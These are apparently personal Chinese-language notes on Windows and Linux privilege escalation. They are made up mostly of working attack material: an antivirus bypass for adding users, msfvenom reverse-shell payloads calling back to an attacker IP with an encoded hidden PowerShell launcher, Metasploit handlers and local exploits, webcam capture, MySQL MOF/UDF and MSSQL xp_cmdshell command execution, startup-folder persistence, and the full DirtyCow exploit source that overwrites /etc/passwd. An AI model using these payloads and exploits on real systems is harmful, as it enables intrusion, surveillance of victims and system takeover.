## Windows提权

```sh
#绕过火绒添加用户
copy c:\windows\system32\net1.exe  aaa.txt
aaa.txt user xxx 123456 /add
```


**概念**

**提权方式**

1. 系统漏洞提权
2. 数据库提权
3. 第三方软件/服务提权
4. 系统配置错误提权

Windows最高权限 system

Windows/Linux使用用户+组的方式对权限进行划分

组 

1. administrators

   任何用户加入此组，就含有管理员权限，可进行关机、远程桌面、修改配置

2. users

   net users test password /add 通过此方式添加的用户

   普通用户，通过屏幕登录系统，不可远程登录

3. 远程桌面组  remote desktop groups

   可进行远程桌面

用户

1. administrator  uid/501

   管理员，最高权限用户

2. guest 

   访客账户，默认禁用状态

3. 

查看补丁信息进行提权

漏洞-->漏洞发布时间

​		-->操作系统发布时间

​		-->漏洞影响范围 

​		-->补丁编号 


```shell
msfvenom -p windows/meterpreter/reverse_tcp lhost=172.16.12.182 lport=4444 -f psh-cmd
#生成命令

msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=172.16.12.182 lport=4444 -f psh-cmd

```

```sh
powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4AdABQAHQAcgBdADoAOgBTAGkAegBlACAALQBlAHEAIAA0ACkAewAkAGIAPQAnAHAAbwB3AGUAcgBzAGgAZQBsAGwALgBlAHgAZQAnAH0AZQBsAHMAZQB7ACQAYgA9ACQAZQBuAHYAOgB3AGkAbgBkAGkAcgArACcAXABzAHkAcwB3AG8AdwA2ADQAXABXAGkAbgBkAG8AdwBzAFAA....................
```

```sh
use exploit/multi/handler

set payload windowx/x64/meterpreter/reverse_tcp
#设置使用payload 
set lhost 0.0.0.0
#设置监听的ip
set lport 4444
#设置监听的端口
set exitonsession false
#可以在接收到seesion后继续监听端口，保持侦听
exploit -j
#开启监听
```

```sh
msfvenom -p windows/meterpreter/reverse_tcp lhost=172.16.12.182 lport=4444 -f exe -o msf.exe
#生成exe

通过webshell上传到服务器

use exploit/multi/handler
#使用payload
set payload windows/meterpreter/reverse_tcp
#设置使用的Payload
set lhost 172.16.12.182
#设置监听的ip
set lport 4444
set exitonsession false
exploit -j


再在蚁剑中执行生成的exe


msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=172.16.12.182 lport=4444 -f exe -o msf.exe
#生成exe

通过webshell上传到服务器

use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 172.16.12.182
set lport 4444
set exitonsession false
exploit -j


再在蚁剑中执行生成的exe

```






```sh
search cve_2020_0787

info 0 查看信息

use 0 使用第0个

set session num

options 配置

set lhost 192.168.21.54

set lport 5555

options 查看配置

exploit 执行脚本

getuid 查看权限
```




```msf
webcam_list  #查看摄像头
webcam_snap   #通过摄像头拍照
webcam_stream   #通过摄像头开启视频
```


## Windows数据库提权

必要条件：

1. 获取Mysql数据库最高权限root账号密码
2. MySQL服务以system运行

 文件导出（***使用into dumpfile***）

udf/mof/开机启动项

mof：Windows系统自带

​	c:/Windows/system32/wbem/mof（根据写入成功失败移入bad\good）

​	mof编程语法，可编写脚本，半分钟自动执行一次

支持：Windows2003/Windows XP

tasklist /v   查看进程以及进程权限


```sql
loadfile("c:/xxx/asdasd/aaa.txt")
loadfile("c:\\xxx\\asdasd\\aaa.txt")
```


outfile后面不能接0x开头或者char转换以后的路径，只能是引号路径。

|                         into outfile                         |                  into dumpfile                   |
| :----------------------------------------------------------: | :----------------------------------------------: |
|                   outfile函数可以导出多行                    |                 只能导出一行数据                 |
|           函数在将数据写到文件里时有特殊的格式转换           |                  保持原数据格式                  |
| outfile对导出内容中的n等特殊字符进行了转义，并且在文件内容的末尾增加了一个新行 | dumpfile对文件内容是原意写入，未做任何转移和增加 |

outfile 以文档形式写入

dumpfile 以二进制



```sql
#secure_file_priv 参数说明
NULL	不允许导入或导出
/tmp	只允许在 /tmp 目录导入导出
空	不限制目录
```


```mysql
select hex(load_file("xxx.mof"));
#转换为16进制

23707261676D61206E616D65737061636528225C5C5C5C2E5C5C726F6F745C5C737562736372697074696F6E22290A0A696E7374616E6365206F66205F5F4576656E7446696C74657220617320244576656E7446696C7465720A7B0A094576656E744E616D657370616365203D2022526F6F745C5C43696D7632223B0A094E616D6520203D202266696C745032223B0A095175657279203D202253656C656374202A2046726F6D205F5F496E7374616E63654D6F64696669636174696F6E4576656E7420220A09090922576865726520546172676574496E7374616E636520497361205C2257696E33325F4C6F63616C54696D655C2220220A09090922416E6420546172676574496E7374616E63652E5365636F6E64203D2035223B0A0951756572794C616E6775616765203D202257514C223B0A7D3B0A0A696E7374616E6365206F66204163746976655363726970744576656E74436F6E73756D65722061732024436F6E73756D65720A7B0A094E616D65203D2022636F6E735043535632223B0A09536372697074696E67456E67696E65203D20224A536372697074223B0A0953637269707454657874203D0A092276617220575348203D206E657720416374697665584F626A656374285C22575363726970742E5368656C6C5C22295C6E5753482E72756E285C226E65742E657865207573657220696368756E716975203132332E636F6D202F6164645C2229223B0A7D3B0A0A696E7374616E6365206F66205F5F46696C746572546F436F6E73756D657242696E64696E670A7B0A09436F6E73756D65722020203D2024436F6E73756D65723B0A0946696C746572203D20244576656E7446696C7465723B0A7D3B0A0A


select unhex('1SA151D123ASC624') into dumpfile "c:/windwos/system32/wbem/mof/xxx.mof"
```



```sh
msfvenom -p windows/shell/reverse_tcp lhost=172.16.12.182 lport=4444 -f exe -o msf.exe
```





msfconsole监听4444端口

## udf提权

user define function用户自定义函数

通过添加新的函数，对MySQL数据库进行功能扩充，从而创建函数，将MySQL账号转化为系统system权限

udf=提权是通过root权限导出udf.dll到系统目录下，可以通过udf.dll调用执行cmd


利用条件



os-x64:arrow_right:x86mysq :leftwards_arrow_with_hook: x64mysql

os-x86:arrow_right:x86mysql

```mysql
show variables like "%plugin%";
#获取dll文件位置
select unhex("") into dumpfile "安装路径\\\\LIB\\\\plugin\\\1q2w3q.dll"
#导入dll文件到目标位置
select unhex("") into dumpfile "c:/xxx/ddd/aa.dll"

create function sys_eval returns String soname '1q2w3e.dll';
#创建函数
drop funcion sys_ecal
#释放创建的函数
select sys_eval("whoami");
#执行系统命令


c:\phpStudy\MySQL\lib\plugin\
```




```sh


sqlmap -d 'mysql://root://root@192.168.xx.xx:3306/mysql' --os-shell --batch
```

```sh
再次调用会话时，先用sessions查看后台会话，再用sessions -i 1调用（后面的数字代表后台会话的id，想调用哪个就用哪个）
将会话放置好后切换成攻击模块，探索系统存在的未修补的漏洞

use post/multi/recon/local_exploit_suggester
1
设置要攻击的会话id

set session 1
run
————————————————
use exploit/windows/local/ms10_015_kitrap0d   #有的漏洞会失败，多试几个
show options 
set session 1 
run
```

### 开机启动项

msf远控exe写入开机启动目录中，

```shell:startup
a.bat
b.vbs
c.exe
d.ps1
e.vb
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp
```

**migrate迁移进程+进程id**（注销session有效）



C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup

## sql server

条件：

​	mssql服务以system运行

​	sq账户/管理员账户（仅有此条件可开启sqlserver  cmd）



```sql
select master.dbo.cmdshell 'whomai';

select xp_cmdshell "whoami";
```




exec master.dbo.xp_cmdshell "whoami"


```sql
exec('xp_cmdshell ''whoami''')
```



# Linux提权


/etc/issus 查看系统内核版本信息


```sh

gcc exp.c -o exp

执行 exp 提权(新的shell)

交互式shell
```

**脏牛提权不可使用在ubuntu系统中**

```c
//
// This exploit uses the pokemon exploit of the dirtycow vulnerability
// as a base and automatically generates a new passwd line.
// The user will be prompted for the new password when the binary is run.
// The original /etc/passwd file is then backed up to /tmp/passwd.bak
// and overwrites the root account with the generated line.
// After running the exploit you should be able to login with the newly
// created user.
//
// To use this exploit modify the user values according to your needs.
//   The default is "firefart".
//
// Original exploit (dirtycow's ptrace_pokedata "pokemon" method):
//   https://github.com/dirtycow/dirtycow.github.io/blob/master/pokemon.c
//
// Compile with:
//   gcc -pthread dirty.c -o dirty -lcrypt
//
// Then run the newly create binary by either doing:
//   "./dirty" or "./dirty my-new-password"
//
// Afterwards, you can either "su firefart" or "ssh firefart@..."
//
// DON'T FORGET TO RESTORE YOUR /etc/passwd AFTER RUNNING THE EXPLOIT!
//   mv /tmp/passwd.bak /etc/passwd
//
// Exploit adopted by Christian "FireFart" Mehlmauer
// https://firefart.at
//

#include <fcntl.h>
#include <pthread.h>
#include <string.h>
#include <stdio.h>
#include <stdint.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/wait.h>
#include <sys/ptrace.h>
#include <stdlib.h>
#include <unistd.h>
#include <crypt.h>

const char *filename = "/etc/passwd";
const char *backup_filename = "/tmp/passwd.bak";
const char *salt = "firefart";

int f;
void *map;
pid_t pid;
pthread_t pth;
struct stat st;

struct Userinfo {
   char *username;
   char *hash;
   int user_id;
   int group_id;
   char *info;
   char *home_dir;
   char *shell;
};

char *generate_password_hash(char *plaintext_pw) {
  return crypt(plaintext_pw, salt);
}

char *generate_passwd_line(struct Userinfo u) {
  const char *format = "%s:%s:%d:%d:%s:%s:%s\n";
  int size = snprintf(NULL, 0, format, u.username, u.hash,
    u.user_id, u.group_id, u.info, u.home_dir, u.shell);
  char *ret = malloc(size + 1);
  sprintf(ret, format, u.username, u.hash, u.user_id,
    u.group_id, u.info, u.home_dir, u.shell);
  return ret;
}

void *madviseThread(void *arg) {
  int i, c = 0;
  for(i = 0; i < 200000000; i++) {
    c += madvise(map, 100, MADV_DONTNEED);
  }
  printf("madvise %d\n\n", c);
}

int copy_file(const char *from, const char *to) {
  // check if target file already exists
  if(access(to, F_OK) != -1) {
    printf("File %s already exists! Please delete it and run again\n",
      to);
    return -1;
  }

  char ch;
  FILE *source, *target;

  source = fopen(from, "r");
  if(source == NULL) {
    return -1;
  }
  target = fopen(to, "w");
  if(target == NULL) {
     fclose(source);
     return -1;
  }

  while((ch = fgetc(source)) != EOF) {
     fputc(ch, target);
   }

  printf("%s successfully backed up to %s\n",
    from, to);

  fclose(source);
  fclose(target);

  return 0;
}

int main(int argc, char *argv[])
{
  // backup file
  int ret = copy_file(filename, backup_filename);
  if (ret != 0) {
    exit(ret);
  }

  struct Userinfo user;
  // set values, change as needed
  user.username = "firefart";
  user.user_id = 0;
  user.group_id = 0;
  user.info = "pwned";
  user.home_dir = "/root";
  user.shell = "/bin/bash";

  char *plaintext_pw;

  if (argc >= 2) {
    plaintext_pw = argv[1];
    printf("Please enter the new password: %s\n", plaintext_pw);
  } else {
    plaintext_pw = getpass("Please enter the new password: ");
  }

  user.hash = generate_password_hash(plaintext_pw);
  char *complete_passwd_line = generate_passwd_line(user);
  printf("Complete line:\n%s\n", complete_passwd_line);

  f = open(filename, O_RDONLY);
  fstat(f, &st);
  map = mmap(NULL,
             st.st_size + sizeof(long),
             PROT_READ,
             MAP_PRIVATE,
             f,
             0);
  printf("mmap: %lx\n",(unsigned long)map);
  pid = fork();
  if(pid) {
    waitpid(pid, NULL, 0);
    int u, i, o, c = 0;
    int l=strlen(complete_passwd_line);
    for(i = 0; i < 10000/l; i++) {
      for(o = 0; o < l; o++) {
        for(u = 0; u < 10000; u++) {
          c += ptrace(PTRACE_POKETEXT,
                      pid,
                      map + o,
                      *((long*)(complete_passwd_line + o)));
        }
      }
    }
    printf("ptrace %d\n",c);
  }
  else {
    pthread_create(&pth,
                   NULL,
                   madviseThread,
                   NULL);
    ptrace(PTRACE_TRACEME);
    kill(getpid(), SIGSTOP);
    pthread_join(pth,NULL);
  }

  printf("Done! Check %s to see if the new user was created.\n", filename);
  printf("You can log in with the username '%s' and the password '%s'.\n\n",
    user.username, plaintext_pw);
    printf("\nDON'T FORGET TO RESTORE! $ mv %s %s\n",
    backup_filename, filename);
  return 0;
}

```

`gcc -pthread dirty.c -o dirty -lcrypt`

`./dirty 123456`



-f elf




`uname -a` 查看内核版本信息


## ubuntu



`python -c "import pty;pty.spawn('/bin/bash')"` 交互式shell切换终端模式

`python -c "import pty;pty.spawn('\bin\bash')"` 交互式shell切换终端模式

```sh
#上传脏牛可执行文件
#chmod a+x dirtycow 添加执行权限 
#./dirtycow -s 进入root的会话shell。不修改/etc/passwd       ./dirtycow 会修改/etc/passwd

www-data@ubuntu:/tmp$ ./dirtycow -s
./dirtycow -s
Running ...
Password overridden to: dirtyCowFun

Received su prompt (Password: )

echo 0 > /proc/sys/vm/dirty_writeback_centisecs
cp /tmp/.ssh_bak /etc/passwd
rm /tmp/.ssh_bak
root@ubuntu:~# echo 0 > /proc/sys/vm/dirty_writeback_centisecs
root@ubuntu:~# cp /tmp/.ssh_bak /etc/passwd
root@ubuntu:~# rm /tmp/.ssh_bak
